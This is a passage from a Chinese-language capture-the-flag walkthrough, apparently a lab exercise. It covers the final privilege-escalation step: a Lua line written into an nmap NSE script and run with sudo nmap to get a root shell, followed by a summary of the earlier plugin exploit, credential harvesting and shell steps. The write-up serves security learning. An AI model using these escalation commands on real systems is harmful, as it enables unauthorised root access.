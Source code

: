 ![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGZ68CJRrUCX0iciahnibT2uEgR6uV7QKJooWntlZ40iaaKibIdFtIeQ256vQ/640?wx_fmt=png)

可以看到这里可以利用 nmap 进行提权

进入 / home/jens 目录，执行下面两条命令

```
#将os.execute('/bin/bash')写入到root.nse文件中
echo "os.execute('/bin/bash')" >> root.nse

#利用nmap插件执行 /bin/bash 来获取root权限
sudo nmap --script=root.nse
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGJKIJaZkgAVsouctGTTBn8cRBnq7WRpyjic1yvv3L21apiaPA6y6B1GzA/640?wx_fmt=png)

可以看到提权成功！

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGvtZ62AoJ3Z8eJSKv7dzBTessM5JvGIOgXD6zKibGict3YP5mVTB7OxkQ/640?wx_fmt=png)

获取到目标！

**06 总结**
---------

1.  熟悉 activity monitor 插件进行漏洞利用
    
2.  从服务器中寻找蛛丝马迹，获取其他账户的账户名和密码
    
3.  使用服务器脚本获取 shell
    
4.  利用 nmap 进行提权操作
